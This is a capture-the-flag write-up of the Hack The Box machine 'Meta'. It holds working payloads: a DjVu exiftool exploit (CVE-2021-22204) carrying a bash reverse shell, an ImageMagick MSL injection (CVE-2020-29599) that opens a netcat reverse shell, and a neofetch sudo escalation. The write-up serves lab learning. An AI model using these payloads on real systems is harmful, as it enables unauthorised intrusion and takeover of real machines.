---
title: 'HTB-Meta'
published: 2025-09-18
draft: false
toc: true
---
**Start 15:25 27-10-2025**

---
```
Scope:
10.10.11.140
```
# Recon
## Nmap

```bash

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    syn-ack Apache httpd
|_http-title: Did not follow redirect to http://artcorp.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



## 80/TCP - HTTP


This just appears to be a static website with nothing else here:



### ffuf

Using `ffuf` I found another vhost:





### dev01.artcorp.htb





I uploaded a sample `png` file:



Since the webserver runs on `php` I tried to upload a webshell but got an error:



Time to do some manipulation. 



I need to change both of these in order to actually achieve a result.

I instead uploaded `sample.png` first:



And modified it during the intercept:



However this still gave an error.

#### gobuster

I went ahead and did a directory enum:



This gave me a hit which also showed the tool that was doing all the work:



It seems that `exiftool` is the one responsible for showing the metadata.
This makes sense as the regular output for `exiftool` looks like this:



### exiftool 

I started focussing on finding public exploits and CVE's:



It looks like there's 2 of them `CVE-2021-22204` & `CVE-2021-22205`: 



# Exploitation
## CVE-2021-22204



Let's test it out.

```bash
# On the local machine
sudo apt install djvulibre-bin

# Create payload file with reverse shell
cat > payload
(metadata "\c${system('bash -c \"bash -i >& /dev/tcp/10.10.14.8/443 0>&1\"')};")

# Compress the payload
bzz payload payload.bzz

# Compile the file
djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
```

Next up I crafted the config file:

```
%Image::ExifTool::UserDefined = (
    'Image::ExifTool::Exif::Main' => {
        0xc51b => {
            Name => 'HasselbladExif',
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
    },
);
1; #end%
```

Next up I inserted the payload into a random `jpg` file:

```bash
exiftool -config configfile '-HasselbladExif<=exploit.djvu' sample.jpg
```



I went ahead and uploaded the image file:



And checked my listener:



# Foothold
## Shell as www-data

I started doing some enumeration



I had no permissions over the `user.txt` flag:



Neither could I execute `sudo -l`:



## Enumeration
### linpeas

I went ahead and uploaded `linpeas.sh` in order to speed up my enum:







This might be promising.


### pspy32

However `linpeas` bugged out and wouldn't continue for some reason so I launched `pspy32` to enumerate the running processes:



Here I found the following processes running under the *thomas* user:



I checked out the permissions as well as the contents:



I didn't have write permissions unfortunately so I needed to go another way.

## mogrify


`mogrify` appears to be a part of the **ImageMagick** toolset.

In order to narrow down the results we can use the following command to find the current version:



After some thorough searching I found the matching CVE:



## CVE-2020-29599

I found a related blogpost:



The poster goes in full detail of the CVE in [his blog post](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html):



We find the PoC by scrolling down:



```xml
<image authenticate='ff" `echo $(id)> ./out`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

I then test the command out:



Since this worked I went ahead and created one with a reverse shell payload:

```xml
<image authenticate='ff" `echo $(busybox nc 10.10.14.8 445 -e bash)> ./out`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

## Shell as thomas

I inserted the above payload and waited for a short while for the shell to trigger:



### user.txt



I went ahead and copied the `id_rsa` afterwards so I could log in via `ssh`:






# Privilege Escalation
## neofetch



Unfortunately the `sudoers` rule doesn't allow us to exploit it the GTFObins way:



```bash
echo 'exec /bin/sh' > .config/neofetch/config.conf 
XDG_CONFIG_HOME=~/.config sudo neofetch
```



>[!tldr]
>This works since we're not passing any arguments after the `neofetch` command.

### root.txt




---

**Finished 17:26 27-10-2025**

[^Links]: [[Hack The Box]]

#mogrify #ImageMagick #exiftool #ffuf #CVE-2021-22204 #CVE-2020-29599 #neofetch 
